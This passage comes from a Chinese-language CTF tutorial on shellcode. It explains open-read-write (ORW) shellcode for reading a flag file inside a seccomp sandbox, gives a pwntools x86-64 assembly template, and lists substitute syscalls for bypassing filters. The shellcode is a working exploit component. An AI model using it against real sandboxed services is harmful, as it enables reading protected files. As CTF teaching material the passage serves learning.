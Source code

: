 调用链举例：`open('./flag\x00',0,0)` --> `read(0,adr,len)` --> `write(1,adr,len)`

shellcode 模版：

```bash
shellcode = asm('''
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
    ''')
```

当然并不是只能用这三个函数来实现任意读写，也可以通过其他替代函数来实现

open（fopen、creat、openat、fopen64、open64、freopen）

read（pread、readv、preadv、splice、sendfile、mmap）

write（pwrite、send、writev）

另外还有一些规定了只能调用其中某两个函数的沙箱，这种类型的 shellcode 可以参考该文章：

[栈沙箱学习之 orw](https://xz.aliyun.com/t/12787?time__1311=mqmhDvrxkG8D%2FD0lD2DUozFq0Q3SGchD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F67773)

## 总结

shellcode 的编写注重对于汇编的理解，非常需要擅长组合搭配的能力，希望这篇文章能够帮到各位师傅加深理解
